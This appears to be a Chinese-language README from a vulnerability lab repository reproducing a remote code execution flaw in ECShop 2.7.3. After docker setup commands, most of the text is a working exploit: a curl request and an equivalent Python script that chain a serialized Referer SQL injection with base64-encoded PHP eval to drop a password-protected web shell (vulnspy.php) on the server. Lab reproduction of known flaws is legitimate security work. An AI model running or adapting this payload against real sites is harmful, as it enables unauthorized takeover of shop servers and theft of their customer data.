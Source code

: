 ## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
2.7.3 Payload
```
curl http://127.0.0.1/user.php -d 'action=login&vulnspy=eval(base64_decode($_POST[d]));exit;&d=ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOz8%2BJyk7' -H 'Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:"id";s:3:"'"'"'/*";s:3:"num";s:201:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca'

```

![](READMEmd/luffy1.png)

```
执行成功后会自动生成 http://127.0.0./vulnspy.php 文件，密码为 vulnspy。
访问：http://127.0.0.1/vulnspy.php?vulnspy=phpinfo();
```

![](READMEmd/luffy2.png)


python代码

```

import requests

burp0_url = "http://127.0.0.1:80/user.php"
burp0_headers = {"User-Agent": "curl/7.54.0", "Accept": "*/*", "Referer": "554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:\"id\";s:3:\"'/*\";s:3:\"num\";s:201:\"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--\";s:4:\"name\";s:3:\"ads\";}554fcae493e564ee0dc75bdf2ebf94ca", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
burp0_data={"action": "login", "vulnspy": "eval(base64_decode($_POST[d]));exit;", "d": "ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOz8+Jyk7"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

```

## 漏洞连接
[链接一](http://www.freebuf.com/vuls/182899.html)

[链接二](http://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/ecshop_%3C=_2.7.x_%E5%85%A8%E7%B3%BB%E5%88%97%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)
